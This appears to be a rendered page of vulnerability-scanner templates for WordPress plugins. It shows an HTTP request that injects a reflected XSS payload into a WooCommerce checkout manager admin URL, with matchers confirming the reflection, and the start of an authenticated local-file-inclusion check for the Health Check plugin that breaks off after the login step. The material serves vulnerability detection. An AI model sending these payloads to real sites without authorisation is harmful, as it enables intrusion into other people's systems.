 ### Step - 2

```
GET /wp-admin/admin.php?page=wc-settings&tab=wooccm&section=advanced&">--><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. > -->\<script>alert(1)\</script>&action=wooccm_nuke_options&

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Health Check & Troubleshooting \<1.24 - Local File Inclusion

## Description

- WordPress Health Check & Troubleshooting prior to 1.2.4 is vulnerable to local file inclusion. Exploitation does require authentication.
- severity - high
- tags - lfi,wp,wordpress,wp-plugin,authenticated,lfr,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
